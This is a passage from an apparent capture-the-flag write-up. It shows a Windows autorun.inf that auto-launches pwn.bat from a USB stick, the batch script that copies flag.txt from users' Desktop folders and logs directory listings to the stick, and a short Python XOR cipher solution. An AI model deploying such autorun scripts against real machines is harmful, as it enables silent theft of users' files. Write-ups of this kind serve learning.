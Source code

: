 ```
[AutoRun]
UseAutoPlay=1
open=pwn.bat
```

Of course we didn't have a Windows XP VM ready, so it was kind of hard to test.
We needed several attempts, for which one of us had to get up and walk to the
computer, plug it in and watch it fail. Too bad we don't know how-to-windows ... In the end we still don't know which one of the copy commands was
the right one, but we got the flag using the following script, so whatever. 
¯\_(ツ)_/¯ 

```
@echo off

echo hmmm

copy "%HOMEPATH%\Desktop\flag.txt"
copy "%HOMEPATH%\Desktop\flag.txt" .
copy "%HOMEPATH%\Desktop\flag.txt" "%CD%"
copy "%HOMEPATH%\Desktop\flag.txt" D:\
copy "C:\Documents and Settings\Administrator\Desktop\flag.txt" D:\
copy "C:\Documents and Settings\CTF\Desktop\flag.txt" D:\

echo "#### CWD" >>listing.log
echo %CD% >>listing.log
dir >>listing.log
echo "#### home/desktop" >> listing.log
cd "%HOMEPATH%"
dir >>D:\listing.log
echo "#### desktop" >> D:\listing.log
cd Desktop
dir >>D:\listing.log

echo "#### users" >> D:\listing.log
cd ..
dir >>D:\listing.log
```

### Caesar

We were given a "pseudo code" description of a simple cipher and the task was to submit the ciphertext. Below is our solution:

```python
"""
key is "iamsobroken"
cipher is hex string
while char at message; do

temp is hex char XOR hex key at index of char MOD key length
append temp to cipher

done
"""

key = "iamsobroken"
message = "I have a bad feeling about Asterix"
cipher = []

for i, m in enumerate(message):
    m = ord(m)
    k = ord(key[(i) % len(key)])
    t = m ^ k
    cipher.append(t)
```
